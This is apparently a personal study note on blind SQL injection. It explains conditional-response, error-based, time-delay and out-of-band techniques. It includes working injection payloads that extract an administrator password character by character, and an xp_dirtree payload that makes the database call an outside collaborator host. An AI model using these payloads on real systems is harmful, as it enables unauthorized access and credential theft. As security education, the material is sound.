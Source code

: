 
## Blind SQL Injection

Blind SQL injection arises when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.

Exploiting Blind SQL Injection by Triggering Conditional Responses
- Cookie Header Example:
```
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```
- When a request containing TrackingId cookie is processed, application determines whether this is a known user with a SQL query
```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

Suppose there is a table called Users with the columns Username and Password, and a user called Administrator. We can systematically determine the password for this user by sending a series of inputs to test the password one character at a time.
```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```
- "Welcome Back" message means the first character of the password is greater than "m"
```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```
- Does not return "Welcome Back" meaning the first character is NOT greater than "t"
```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
```
- Returns "Welcome Back" meaning the password begins with "s"


## Inducing Conditional Responses by Triggering SQL Errors
```
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a

xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

- Uses the "CASE" keyword to test a condition and return a different expression depending on if it's true
- First input, CASE evaluates to 'a' with no errores
- Second input, CASE evaluates to 1/0 which causes a divide-by-zero error
- Use the error response to determine if the character is valid


## Exploiting Blind SQL Injection by Triggering Time Delays

It is often possible to exploit the blind SQL injection vulnerability by triggering time delays conditionally, depending on an injected condition. Because SQL queries are generally processed synchronously by the application, delaying the execution of an SQL query will also delay the HTTP response. This allows us to infer the truth of the injected condition based on the time taken before the HTTP response is received

- Testing on Microsoft SQL Server:
```
'; IF (1=2) WAITFOR DELAY '0:0:10'--

'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

- First input will not cause a delay because 1=2 is false
- Second input will cause a 10 second delay because 1=1 is true


## Exploiting Blind SQL Injection Using Out-Of-Band (OAST) Techniques

Trigger blind SQL injection vulnerability by triggering out-of-band network interactions to a system you control often via DNS
- Performed with Burp Collaborator (need Burp Suite Professional)
- Input for Microsoft SQL
```
'; exec master..xp_dirtree
'//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

- Causes the database to perform a lookup for the following domain - 0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net
- Use "Collaborator Client" to generate a unique subdomain and poll the Collaborator server to confirm when any DNS lookups occur